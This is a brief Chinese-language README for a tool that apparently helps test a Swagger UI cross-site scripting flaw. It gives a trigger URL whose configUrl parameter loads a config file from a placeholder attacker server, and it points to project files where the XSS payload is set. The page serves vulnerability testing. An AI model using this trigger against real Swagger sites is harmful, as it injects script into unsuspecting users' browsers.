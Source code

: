 # nginx_swagger
这个项目主要用于辅助测试Swagger的XSS漏洞

# 漏洞原理
![avatar](./1_20220611204136.png)

# 漏洞触发

http://1.116.xxx.112:8089/swagger-ui/index.html?configUrl=https://VPS_IP/test.json

注意1： 修改项目test.json 中的 VPS IP 和 test.yaml中的XSS Payload

# 漏洞效果
![avatar](./2_20220611204136.png)
